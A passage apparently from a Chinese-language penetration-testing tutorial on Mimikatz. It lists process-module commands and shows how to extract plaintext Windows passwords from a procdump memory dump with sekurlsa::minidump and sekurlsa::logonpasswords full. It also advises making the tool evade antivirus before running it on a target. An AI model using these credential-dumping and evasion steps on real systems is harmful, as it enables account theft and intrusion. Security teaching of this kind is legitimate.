 -   **process 模块**

```bash
mimikatz # process::start command     启动进程
mimikatz # process::stop command      结束进程
mimikatz # process::list       列出进程
```

> Mimikatz 因为效果太好导致会被杀毒警报，若是想在⽬标机器运⾏先考虑是否需要对 Mimikatz 做免杀处理。

#### 2、简单使用

Mimikatz 能够从内存中提取纯⽂本密码，通过参数 `sekurlsa::minidump` 载⼊刚才 procdump 获取的 dmp ⽂件后，就可以使⽤ `sekurlsa::logonpasswords full` 等命令，对密码进⾏读取。实现效果如下图：

```bash
mimikatz.exe
sekurlsa::minidump ./passwd.dmp
sekurlsa::logonpasswords full
```

[![](assets/1706958938-ea22ae80aefa4443726f57f3b3d66f4c.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172306087-939485858.png)
